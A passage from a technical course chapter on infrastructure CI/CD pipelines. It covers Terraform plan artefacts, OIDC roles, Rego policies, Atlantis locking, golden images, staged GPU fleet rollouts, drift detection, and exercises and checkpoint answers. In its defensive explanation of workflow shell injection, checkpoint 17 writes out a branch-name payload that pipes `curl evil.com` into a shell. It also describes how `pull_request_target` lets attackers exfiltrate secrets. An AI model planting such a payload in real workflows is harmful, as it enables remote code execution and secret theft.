Concurrency and locking protect the state. Use state locking in the backend, CI concurrency groups, and Atlantis locks. Think of the state as the single ledger for an environment. Two people writing to one ledger at the same time produce a wrong balance. Never run two applies against one state, and avoid cancelling an apply that is already in flight. Cancelling halfway through leaves the ledger half-written.

Observability tells you whether the pipeline itself is healthy. Track pipeline duration, failure rate, queue time, flake rate, change failure rate and mean time to recovery, which are the DORA metrics. DORA is a research program that found these measures predict how well a team delivers, and it is a common shorthand for team health. Alert on stuck applies and on plans that stay pending for too long. A stuck apply holds the lock, and every later change waits behind it.

Break-glass is the emergency path. Keep it documented, logged and time-limited, so you can make manual changes when you must. An emergency fix often happens at night, with the pipeline down and the outage growing. The procedure lets the on-call engineer act without inventing a process in the middle of the outage. After each emergency change, make a reconciliation commit, so that Git matches reality again. Without that commit, the next pipeline run will quietly undo the emergency fix.

Finally, send plan and apply summaries to chat, and keep logs and plan artefacts for as long as compliance requires. Compliance here means whatever record-keeping your organization or regulator asks for. Never run two applies against one state, and keep that rule in mind whenever you change a concurrency setting.

## 13. Lab

Start with the self-checking Python lab. Run it locally, and it checks four things at once. It verifies OPA/Rego-style policy evaluation on `terraform show -json tfplan` (`evaluate_terraform_plan_policies`). That rule blocks `>16` restricted `p5.48xlarge` instances without `Override-Capacity`, and it blocks deleting `Mission-Critical` resources. It also checks OIDC claim-to-role federation (`authorize_oidc_token_claims`), which separates a read-only pull request `plan` from a protected `main` `apply`. The lab then runs staged canary and batched fleet rollouts, with `serial` and `max_fail_percentage` halting the line (`simulate_staged_fleet_rollout`). Last, it classifies drift from `terraform plan -detailed-exitcode` (`classify_terraform_detailed_exitcode`).

```bash
python3 code/part04/cicd_pipeline_policy_lab.py
```

Each of the four checks in the lab mirrors a section of this chapter. The policy check corresponds to section 7, the OIDC check to section 5, the rollout check to section 9, and the drift check to section 11. Run the lab first, and read the output as a set of worked examples. A check that passes there tells you the logic is sound. It does not tell you that your real pipeline is wired correctly.

Next, work through the exercises on any machine that runs GitHub Actions, GitLab CI or `act`. The interactive steps below have not been run on live hardware, so treat your first run as the real test. Keep a log of each exercise, with what you expected, what happened and what you changed. That log becomes the team's first runbook for the pipeline.

1. Build a pipeline skeleton. Create a repository with a tiny Terraform configuration (null or random providers, or a local-only config) and an Ansible playbook. Add the static job with fmt, validate, yamllint, ansible-lint and gitleaks. Break each check on purpose, and watch the pull request fail.
2. Add the plan on the pull request. Make the plan job produce `tfplan` and post the output as a pull request comment. Confirm that the apply job downloads and applies exactly that artefact. Then change the code after approval, and observe how the plan mismatch behaves.
3. Set up environments and approvals. Define `staging` and `prod` environments with required reviewers. Try to apply from a feature branch, and you should be denied. Add concurrency groups, and verify that two simultaneous runs run one after the other.
4. Configure OIDC. Set up workload identity federation to a sandbox cloud project, or a Vault JWT role. Assert that a feature-branch job gets read-only access and cannot assume the apply role. Then remove all static cloud secrets from the repository.
5. Write policy as code. Write the Rego cost and deletion policies, and build allow and deny JSON fixtures. Run `conftest verify`, wire the policies into the pipeline, and demonstrate a denial and the break-glass tag process.
6. Optionally, try Atlantis. Run Atlantis locally with `ngrok` or another tunnel on a test repository. Observe workspace locking with two pull requests.
7. Build a golden image. Write a Packer template that builds a container or VM image with an Ansible role. Scan it with trivy, run a smoke test, and publish an image manifest with the git SHA. Then switch a Terraform variable to the new image ID.
8. Run a fleet rollout. Simulate 20 hosts with containers. Write a rollout playbook with a canary group, a validation play, `serial: 5` and `max_fail_percentage: 10`. Inject a failure on the canary, and confirm that the pipeline stops. Then inject a failure at batch 3, and confirm the halt threshold.
9. Handle drift. Apply Terraform, change a resource outside of it, and run the nightly drift job. Resolve the drift twice: once by reapplying, and once by importing or adopting the change. Document each decision.
10. Review pipeline security. List every secret and permission your pipeline uses, and replace the long-lived ones with OIDC. Test a malicious pull request that edits the workflow, and another that injects shell through a branch name. Then apply the fixes: CODEOWNERS on workflows, no `pull_request_target`, and quoted inputs.
11. Measure the metrics. Compute lead time, deployment frequency, change failure rate and time to restore from one month of your repository history.
12. Clean up.

## 14. Common mistakes

Most of these mistakes come from speed. A team wants a faster merge, so it removes an approval, widens a role or skips a canary. Each shortcut feels small on the day it is taken, and the bill arrives later, usually during an incident. The list is long because the same story repeats in many forms. Read the entries as signs. If your pipeline has one of these habits, the next incident will probably start there.

- You re-plan at apply time instead of applying the reviewed plan artefact.
- Pipelines hold admin credentials as long-lived secrets.
- One identity handles both plan and apply.
- Fork pull requests can read secrets.
- There is no locking or concurrency control, so two applies race on one state or one fleet.
- Teams use a branch per environment instead of a directory or variable per environment.
- Teams auto-apply on merge to production with no approval, window or verification, or they enable auto-heal for stateful resources.
- The whole fleet gets the change at once, with no canary, no validation and no halt threshold.
- Policies nobody can test or override cleanly lead people to disable the gates.
- Secrets in Terraform data sources are treated as safe while the state file is world-readable.
- Pipelines are slow and flaky, so people bypass them, and checks are optional rather than required.
- Actions, runners, providers and tool versions are unpinned, or self-hosted runners retain state between jobs.
- If you have no drift detection, Git slowly stops describing reality.
- Rollback plans assume you can reverse everything.

Use this list as a review checklist for your own pipeline. Pick the entry that worries you most, and check whether the pipeline actually enforces the opposite. A written rule that nothing enforces is only a hope.

## 15. Interview angles

- "How is infrastructure CI/CD different from application CI/CD?" A strong answer covers state, blast radius, and evidence versus mutation.
- "Design a pipeline for Terraform changes to a GPU cluster." Walk through static checks, the plan artefact, policy, approvals, an apply of the saved plan, verification, and drift.
- "How do you give CI access to the cloud securely?" Mention OIDC federation, scoped claims, and separate plan and apply identities.
- "How do you roll out a kernel parameter or driver change to 1,000 GPU nodes?" Cover draining, a canary, validation, batches, and halt rules.
- "What is policy as code and what policies would you enforce?" Name cost, network, IAM, tagging, and protected resources.
- "Push versus pull deployment: when each?" Contrast CI-driven apply with GitOps controllers.
- "How do you detect and handle drift?" Mention scheduled plans, GitOps comparison, and the choice between auto-heal and alert.
- "What makes a pipeline itself a security risk and how do you reduce it?" Cover runner isolation, supply-chain pins, workflow protection, and least privilege.
- "How would you test Ansible roles and Terraform modules?"

## Exercises

1. A junior engineer opens a pull request that changes a shared template, and that template also renders the storage fabric's switch configs. Compare application and infrastructure CI/CD across statefulness, failure cost, rollback and credentials. Why is a manual CAB meeting called "Change Management Theater" in *Network Programmability and Automation*, Chapter 13? Why should humans sit above an automated pipeline instead? Name the five components of the infrastructure pipeline that the `Templatizer` walkthrough describes.
2. A team wants its Terraform apply to match the plan that a reviewer approved. Should the pipeline run `terraform apply -auto-approve` after a fresh plan, or apply the saved `tfplan` file? Why does the saved file protect the review? How does Atlantis lock a workspace while two pull requests are open? In the four-server stack from *Ansible: Up and Running*, Chapter 22, where does the Jenkins Configuration as Code file live, and where does the `ansibleTower` job template fit?
3. A GitHub Actions plan job needs cloud access, and the repository must hold no stored keys. Using `authorize_oidc_token_claims()` in `code/part04/cicd_pipeline_policy.py`, how does the job exchange a short-lived OIDC token for cloud credentials? Which claims separate the read-only plan identity from the apply identity? Why must a fork pull request or a feature branch never reach the apply role?
4. A pull request plans to create more restricted GPU instances than the cap allows. Using `evaluate_terraform_plan_policies()` in `code/part04/cicd_pipeline_policy.py`, how do `terraform show -json tfplan` and `conftest test plan.json` enforce the cap? What does the `Override-Capacity` tag change, and who should be allowed to add it? How do the same rules protect a `Mission-Critical` resource from deletion?
5. A Packer pipeline has built a new GPU node image, and the 1,000-node fleet must adopt it safely. Using `simulate_staged_fleet_rollout()` in `code/part04/cicd_pipeline_policy.py`, which steps build, harden and boot-test the image? Which tools run in the boot test, and what does each one prove? Why drain and canary before the batch rollout with `serial: 5` and `max_fail_percentage: 10`?
6. A nightly drift job on the production environment exits with code 2. Using `classify_terraform_detailed_exitcode()`, what do exit codes `0`, `1` and `2` mean? Which kinds of resource are safe to auto-heal, and which should only raise an alert? How do ephemeral runners, a concurrency group with `cancel-in-progress: false`, pinned action SHAs and `CODEOWNERS` on `.github/` protect the CI system itself? Why should `pull_request_target` be avoided?

## Checkpoint questions (20)

<details>
<summary>1. What does "CI produces evidence, CD controls mutation" mean, and why is infrastructure rollback fundamentally harder than application rollback?</summary>

CI and CD do different jobs. Continuous Integration runs on every pull request and produces proof. That proof includes `fmt`, `validate`, linters, security scans, `terraform plan`, `ansible --check --diff`, OPA policy results, and test reports, all attached to the PR. Continuous Delivery or Deployment changes real infrastructure only after a human approves and the change merges. It then applies the exact change set that was reviewed.

Rollback is harder because infrastructure has state and physical limits. If you roll back a stateless container, you start the old image tag. A deleted S3 bucket, a dropped database column, a flashed BMC or NIC firmware image, or a split InfiniBand subnet manager cannot be undone by running `git revert`.
</details>

<details>
<summary>2. In *Network Programmability and Automation* Chapter 13, why are manual CAB approvals called "Change Management Theater", and what are the five components of a network CI pipeline?</summary>

In a traditional Change Advisory Board (**CAB**) process, engineers describe a change in prose on a form. Then they type CLI commands into production routers over SSH at midnight. Nothing guarantees that the typed commands match the ticket or are even valid. If you move humans **above** the pipeline, that theater gives way to five automated stages:

1. **Peer review** on `GitHub` PRs, `GitLab` MRs, `Gerrit`, or `Bitbucket`, where the diff *is* the change description.
2. **Build automation** with `validate_yaml.py`, `tox -epep8`, `tox -epy38`, and `tox -ecover`. It catches syntax and logic bugs before a human reviews the change.
3. **Deployment validation** across **operational state** (BGP peers, NAPALM, Batfish, or Forward Networks), **basic connectivity**, and **end-to-end performance**, measured with NetBeez, ThousandEyes, or streaming telemetry.
4. **Test, dev and staging virtual topologies** built with `Vagrant`, `Containerlab`, or `Terraform`.
5. **Controlled deployment strategies:** Rolling, Canary, and Blue/Green, plus section-level replacement such as Junos `<bgp operation="replace">`, so that **What It Should Be (`WISB`)** equals **What It Really Is (`WIRI`)**.
</details>

<details>
<summary>3. Contrast Continuous Integration, Continuous Delivery, and Continuous Deployment (*Network Programmability and Automation* Chapter 13 and *Ansible: Up and Running* Chapter 22).</summary>

- **Continuous Integration (CI):** Developers merge code changes into a shared mainline frequently, at least daily. Every push triggers automated build, lint and test suites. Those suites catch integration errors early, a definition that comes from Martin Fowler, 2006.
- **Continuous Delivery (CD):** Every merged change is built, tested and validated in staging automatically. The codebase stays **always in a deployable state**. A human decision or a maintenance window still gates the push to production.
- **Continuous Deployment:** Every change that passes the automated stages goes straight to production, with no human gate. That suits web apps. For core physical and stateful infrastructure, it is risky without canary or soak gates.
</details>

<details>
<summary>4. Why must a Terraform pipeline save `terraform plan -out=tfplan` and pass that exact file to `terraform apply tfplan`?</summary>

Suppose a pipeline runs `terraform plan` on the pull request for human review. Then it runs a fresh `terraform apply -auto-approve` after the merge, with no saved plan. Any change to the remote state, the cloud API, or dynamic data sources in between is applied without anyone reviewing it. That is a time-of-check to time-of-use race.

Saving the plan with `terraform plan -out=tfplan` and applying it with `terraform apply tfplan` closes that gap. Terraform runs the **exact binary plan that passed policy checks and human review**. It also fails fast if the state lock advanced in the meantime.
</details>

<details>
<summary>5. How does Atlantis turn pull requests into a Terraform control plane, and how does it prevent conflicting applies?</summary>

**Atlantis** is a self-hosted webhook server. It listens for pull request events and comments such as `atlantis plan` and `atlantis apply`. It runs `terraform plan` on pull requests automatically, and it posts the formatted diff back as a pull request comment.

As soon as a plan is generated for a pull request, Atlantis **locks the workspace, directory and environment**. No other pull request can plan or apply conflicting changes to that state. The lock stays in place until the first pull request is applied with `atlantis apply`, which is gated by `apply_requirements: [approved, mergeable]` in `atlantis.yaml`. It also clears if someone explicitly discards the lock with `atlantis unlock`. Finally, Atlantis keeps cloud credentials on one hardened controller, not spread across developer laptops.
</details>

<details>
<summary>6. How does OpenID Connect (`OIDC`) federation eliminate stored cloud keys in CI, and how should `plan` and `apply` roles be separated?</summary>

With **OIDC federation**, the CI provider mints a short-lived, cryptographically signed JWT for each job. In GitHub Actions, you enable it with `permissions: { id-token: write }`. The JWT carries claims for the `repository`, `ref` (branch or tag), `actor`, and `environment`. The cloud provider verifies the issuer's signature and exchanges the token for a temporary credential that lasts only for that job. GCP Workload Identity Federation, AWS IAM Web Identity, Azure Federated Credentials, and HashiCorp Vault JWT auth all work this way.

Use two roles to keep the work separate:

- **`tf-plan` role (read-only):** It trusts `repo:org/infra:*` on pull requests, only on the `pull_request` event and never from untrusted forks. It holds read-only cloud permissions.
- **`tf-apply` role (write):** It trusts **only** `repo:org/infra:environment:prod` and `ref:refs/heads/main`. A feature branch or pull request job can never assume write permissions.
</details>

<details>
<summary>7. Why is the Terraform state file a high-value secret store even if you never hardcode passwords in `.tf` files?</summary>

Terraform stores the raw, unencrypted values of the resources it manages. That includes a database, a TLS key, or a service account token. It also includes any secret that you read through a `data` source. All of these values land in `terraform.tfstate`. Marking an output `sensitive = true` only hides it from terminal logs, not from the state file.

The remote state backend, such as an S3 or GCS bucket, must therefore be encrypted at rest with KMS and versioned. It must also block public access. IAM should allow access only for the CI pipeline identities and the break-glass admins.
</details>

<details>
<summary>8. Why must a deployment workflow set `concurrency: { group: infra-${{ github.ref }}, cancel-in-progress: false }`?</summary>

- **`group: infra-...`:** Only one pipeline run per environment or state executes at a time. Later commits queue up, rather than racing two `terraform apply` or `ansible-playbook` runs against the same cluster.
- **`cancel-in-progress: false`:** In application CI, cancelling a superseded test run saves runner minutes. In infrastructure CD, cancelling an in-flight `terraform apply` kills the process while cloud APIs are still changing resources. The state can end up partly updated, locks can dangle, and nodes can be left half-configured. Never auto-cancel an in-flight apply.
</details>

<details>
<summary>9. How does Policy as Code (`OPA` / `Rego` with `Conftest`, `Sentinel`, `Checkov`) work on a Terraform plan?</summary>

After the pipeline creates the binary plan with `terraform plan -out=tfplan`, it converts that plan to JSON with `terraform show -json tfplan > plan.json`. Then it evaluates the JSON against declarative policy rules with `conftest test plan.json --policy policies/`.

Rego `deny contains msg if { ... }` rules inspect `input.resource_changes`, including `rc.type`, `rc.change.actions`, `rc.change.before` and `rc.change.after`. The rules block unsafe changes automatically. Examples include creating more than 16 `p5.48xlarge` GPU instances without an `Override-Capacity` tag, opening `0.0.0.0/0` management ports, omitting required cost-center tags, and deleting any resource tagged `Mission-Critical == "true"`.
</details>

<details>
<summary>10. What are the stages of a Golden Image pipeline (`Packer` + `Ansible`) for GPU cluster nodes, and why boot from immutable images instead of configuring live nodes after boot?</summary>

If you configure GPU nodes from scratch at boot, with `apt` or `dnf` installs and driver compiles, it takes 20–40 minutes. The process also depends on external mirrors during a scale-up. Nodes booted on different days drift apart. A **Packer golden image pipeline** avoids all of this in five steps:

1. Boots a clean base OS image in an isolated build environment.
2. Runs **Ansible roles** to install the exact NVIDIA GPU driver, CUDA toolkit, Fabric Manager, `containerd`, `nvidia-container-toolkit`, DCGM, and sysctl or kernel tunings.
3. Runs **CIS hardening** and **Trivy or Grype vulnerability scans**, then generates an **SBOM**.
4. Boots a **real GPU smoke-test instance** to verify `nvidia-smi`, `dcgmi diag -r 1`, and a quick NCCL test.
5. Publishes an **immutable image ID**, such as an AMI, GCP image, BCM software image, or OCI disk image. It tags the image with the Git SHA and the driver and CUDA versions, and keeps the last $N$ images for instant rollback.
</details>

<details>
<summary>11. Walk through a safe, staged rollout of a driver or kernel update across a 1,000-node physical GPU cluster.</summary>

Never apply a disruptive change to an entire fleet at once. You work through three stages.

1. **Canary stage (1–2 nodes):** Drain the canary nodes from Slurm with `scontrol update NodeName=... State=DRAIN Reason="maint"`, or from Kubernetes with `kubectl drain`. Then apply the change, or reboot into the new golden image. Run automated **post-apply validation**: `nvidia-smi`, ECC counters at 0, InfiniBand or RoCE link speed active, DCGM health, and a multi-node `all_reduce_perf` bandwidth check.
2. **Soak and gate:** Watch the canary SLOs and metrics through a soak window. Halt immediately if any check fails.
3. **Batched rollout (`serial` and `max_fail_percentage`):** Roll out across the fleet in batches that respect failure domains, such as 5% of nodes or one rack at a time. In Ansible, this uses `serial: 20` and `max_fail_percentage: 5`. Drain before each batch, run the validation play before you undrain with `State=RESUME`, and stop the line automatically if failures exceed the threshold.
</details>

<details>
<summary>12. In *Ansible: Up and Running* Chapter 22, what four servers make up the self-hosted CI/CD stack, and how do `JCasC` and `Job DSL` automate Jenkins?</summary>

The four self-hosted VMs that Ansible provisions in *Ansible: Up and Running* Chapter 22 are these:

1. **Sonatype Nexus 3:** With `nexus_config_pypi: true` and `nexus_config_docker: true`, it works as a local caching proxy and artifact repository for wheels and container images.
2. **Gitea and MySQL:** A self-hosted Git server listening on port `3000`.
3. **SonarQube and PostgreSQL:** With the `ansible-lint` plugin, it analyzes static code quality and technical debt.
4. **Jenkins and Docker:** A CI server configured without manual clicks in the web UI. **Jenkins Configuration as Code (`JCasC`)** loads `/var/lib/jenkins/casc_configs/jenkins.yaml` through `-Dcasc.jenkins.config=...`. The **Job DSL** seed job is templated from `jobs.groovy.j2` into `/home/jenkins/jobs.groovy`, and it is reloaded with `jenkins-cli.jar reload-jcasc-configuration`.
</details>

<details>
<summary>13. Why should a CI pipeline trigger a Job Template on AWX / Ansible Automation Controller (`ansibleTower`) rather than holding production SSH keys on Jenkins/GitHub runners (*Ansible: Up and Running* Chapter 22)?</summary>

If Jenkins or GitHub Actions runs `ansible-playbook` directly against production hosts, the CI runner must hold raw SSH private keys and Ansible Vault passwords for the entire fleet. Instead, the pipeline can use the **`ansibleTower` plugin**, or an AWX or AAP REST API webhook. That triggers a pre-defined **Job Template** (`jobTemplate: '1234'`) on **Ansible Automation Controller**.

The SSH keys and Vault credentials then stay encrypted in the controller's credential store. Controller RBAC governs who can use them, and every playbook run is logged and audited centrally.
</details>

<details>
<summary>14. Summarize the 6-level testing hierarchy for Infrastructure as Code and when each level runs.</summary>

1. **Static (every commit, seconds):** `terraform fmt` and `validate`, `tflint`, `yamllint`, `ansible-lint`, `kubeconform`, `shellcheck`, `hadolint`, `gitleaks`, and `checkov`.
2. **Unit or Render (every commit, seconds):** `terraform test` with mock providers, Conftest Rego unit tests (`conftest verify`), and Jinja2 template rendering against golden files.
3. **Plan or Diff (every PR, seconds to minutes):** `terraform plan`, `ansible-playbook --check --diff`, `helm diff`, and `dyff`.
4. **Integration (PR or merge, minutes):** Ephemeral real resources through `Terratest` (Go), `Molecule` with `Testinfra` on containers or VMs, `Containerlab`, or `kind` and `k3d` clusters. Give them TTL tags, so you can reap leaked resources.
5. **End-to-End (pre-prod or nightly):** A staging cluster slice that runs `nccl-tests` and synthetic training smoke jobs.
6. **Operational (scheduled):** Nightly drift detection with `terraform plan -detailed-exitcode`, backup restore drills, and failover game days.
</details>

<details>
<summary>15. How does `terraform plan -detailed-exitcode` work in a nightly drift-detection job, and when should drift be auto-healed versus alerted?</summary>

When you run `terraform plan -input=false -detailed-exitcode`, it returns one of three POSIX exit codes.

- **`0`:** The run succeeded and the diff is empty, which means **no drift**.
- **`1`:** An error occurred.
- **`2`:** The run succeeded and the diff is not empty, which means **drift detected**.

For stateless resources, such as Kubernetes Deployments, ConfigMaps and host config files, automatic reconciliation back to Git is safe. Argo CD with `selfHeal`, or scheduled Ansible runs, can do it. Stateful infrastructure is different. That covers databases, storage buckets, VPCs and stateful GPU instances. A nightly drift job for these should **alert only**, and post the plan diff to Slack, PagerDuty or Jira. It must never auto-apply, because an automatic revert could delete production data or terminate active training nodes. Sometimes an out-of-band emergency fix should be imported or adopted into Git instead.
</details>

<details>
<summary>16. Why are self-hosted CI runners a critical security boundary, and how must they be hardened?</summary>

An infrastructure CI runner sits inside your private management network, and it can assume cloud or cluster admin roles. A compromised runner is therefore as dangerous as root on the fleet. You harden runners in four ways.

1. Use **ephemeral, single-use runners**: a fresh container or microVM for each job, destroyed as soon as the job exits, so no cached credentials or filesystem state remain.
2. Isolate runners in a restricted network segment with strict egress filtering.
3. Never run untrusted fork pull requests on privileged self-hosted runners.
4. Keep read-only PR plan runners separate from the protected production apply runners.
</details>

<details>
<summary>17. Why is the GitHub Actions `pull_request_target` trigger dangerous, and how can untrusted PR metadata cause shell injection in workflows?</summary>

- **`pull_request_target`:** A standard `pull_request` run uses the PR branch context, with a read-only `GITHUB_TOKEN` and no secrets on forks. `pull_request_target` runs in the privileged context of the base branch (`main`), with full access to repository secrets and write permissions. If a `pull_request_target` workflow checks out and runs code or scripts from the untrusted PR head, an attacker can exfiltrate every secret in the repository.
- **Workflow shell injection:** If you interpolate untrusted GitHub context expressions, such as `${{ github.head_ref }}` or `${{ github.event.pull_request.title }}`, straight into a `run: |` script, a branch named `feat"; curl evil.com | sh #` can execute arbitrary commands. Pass untrusted values through job `env:` variables instead, for example `BRANCH: ${{ github.head_ref }}`, and quote `"$BRANCH"` in the shell.
</details>

<details>
<summary>18. What supply-chain controls protect a CI/CD pipeline from compromised third-party actions, providers, and tools?</summary>

1. **Pin GitHub Actions to full 40-character commit SHAs**, such as `uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2`, rather than mutable tags such as `@v4`.
2. **Commit `.terraform.lock.hcl`**, and verify SHA-256 checksums or Cosign signatures for downloaded tools such as `terraform`, `conftest`, `kubectl` and `helm`.
3. **Mirror critical base images and packages** in a private registry or proxy, such as Nexus, Artifactory or Harbor, as *Ansible: Up and Running* Chapter 22 shows.
4. **Protect `.github/workflows/` and `policies/` with `CODEOWNERS`.** Then no pull request can weaken pipeline checks or change OIDC roles without approval from the security or platform owner.
</details>

<details>
<summary>19. How do the four DORA metrics apply to an infrastructure and platform engineering team?</summary>

1. **Deployment Frequency:** How often you merge and roll out safe, small infrastructure changes.
2. **Lead Time for Changes:** The time from commit or pull request creation to a verified production apply. Automated static, plan and policy gates shorten it by replacing weekly CAB queues.
3. **Change Failure Rate:** The share of infrastructure applies that trigger an alert, an SLO violation or a rollback. Saved plans, Conftest policies, virtual topologies and canary rollouts all reduce it.
4. **Mean Time to Restore (MTTR):** How fast the team detects and recovers from a bad change, using `git revert`, immutable golden image rollback, or tested restore playbooks.
</details>

<details>
<summary>20. How should an emergency "Break-Glass" procedure work when the CI pipeline is down or too slow during a critical outage?</summary>

A break-glass procedure gives you a **pre-defined, time-bounded, fully audited** emergency path.

1. An on-call engineer requests temporary elevated credentials. That can be PagerDuty-gated cloud IAM or Vault role elevation, or an `Override-Capacity` tag with a mandatory incident ticket ID. The request pages security and the secondary on-call, and it records session logs.
2. The engineer mitigates the immediate outage.
3. **Mandatory post-incident reconciliation:** Before the incident can close, the out-of-band change is codified into a Git commit. It goes through a reviewed pull request, and `terraform plan` must show `No changes`, so Git and reality are back in sync (`WISB == WIRI`).
</details>

## Sources and review notes

- **Sources read in full:**
  - `network-programmability-and-automation-2nd-edition` — Christian Adell, Scott Lowe, Matt Oswalt & Jason Edelman, *Network Programmability and Automation*, 2nd ed., **Chapter 13: Continuous Integration** (read in full: removing humans from the direct control path vs "Change Management Theater" / CAB meetings, release engineers, cookie-cutter vs snowflake designs, CI vs Continuous Delivery vs Continuous Deployment, Test-Driven Development `TDD`, the 5-part `Templatizer` CI pipeline with GitLab Merge Requests, `validate_yaml.py`, `.gitlab-ci.yml`, `tox -epep8/-epy38/-ecover`, Codecov, 3-layer deployment validation across Operational state / Basic connectivity / End-to-end performance with NAPALM, Batfish, Forward Networks, NetBeez, ThousandEyes, and streaming telemetry, virtual test topologies with Vagrant/Containerlab/Terraform, and deployment strategies: Deploy in place, Rolling, Canary, Blue/Green, and Junos XML `<bgp operation="replace">` ensuring `WISB == WIRI`).
  - `ansible-up-and-running-3rd-edition` — Bas Meijer, Lorin Hochstein & René Moser, *Ansible: Up and Running*, 3rd ed., **Chapter 22: CI/CD and Ansible** (read in full: Martin Fowler's 2006 CI definition, provisioning the 4-VM CI/CD stack with Sonatype Nexus 3 `nexus_config_pypi`/`nexus_config_docker`, Gitea + MySQL on port `3000`, SonarQube + PostgreSQL with `ansible-lint`, and Jenkins + Docker; Jenkins Configuration as Code `JCasC` `/var/lib/jenkins/casc_configs/jenkins.yaml` with `-Dcasc.jenkins.config`, `Job DSL` seed job `jobs.groovy.j2` + `jenkins-cli.jar reload-jcasc-configuration`, declarative `Jenkinsfile` running Molecule stages `syntax`/`lint`/`converge`/`verify`/`idempotence`, and `ansiblePlaybook` vs `ansibleTower` `jobTemplate: '1234'` on Ansible Automation Controller).
  - `nvidia-devops` (`volume-10/11-cicd-for-infrastructure-and-cluster-configuration.md`): evidence vs mutation, Atlantis, Argo CD and Flux, AWX integration, OIDC-based GitHub Actions pipeline, OPA/Rego policies for GPU cost/network/IAM/deletion, Packer golden image pipelines, canary and batched fleet rollouts, and scheduled drift detection.
- **Run here:** `python3 code/part04/cicd_pipeline_policy_lab.py` (4 passed, 0 failed).
- **Explicitly labelled inferences:** The `evaluate_terraform_plan_policies`, `authorize_oidc_token_claims`, `simulate_staged_fleet_rollout`, and `classify_terraform_detailed_exitcode` models in `code/part04/cicd_pipeline_policy.py`, the reference GitHub Actions workflow, and the Rego `package terraform.cost` policy are the author's constructions synthesizing *Network Programmability and Automation* Chapter 13, *Ansible: Up and Running* Chapter 22, and `volume-10` (plus original study items 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, and 35).
- **Not verified on live hardware:** Live GitHub Actions / GitLab / Jenkins / Atlantis / Packer / cloud OIDC executions (`p5.48xlarge`, `p4d.24xlarge`, `16` instances, `projects/123`, `3000`, `8080`, `3306`, `0440`, `0750`, `1234`, `v2`, `v3`, `v4`) are marked as not run in this chapter where `cicd_pipeline_policy_lab.py` does not execute them.
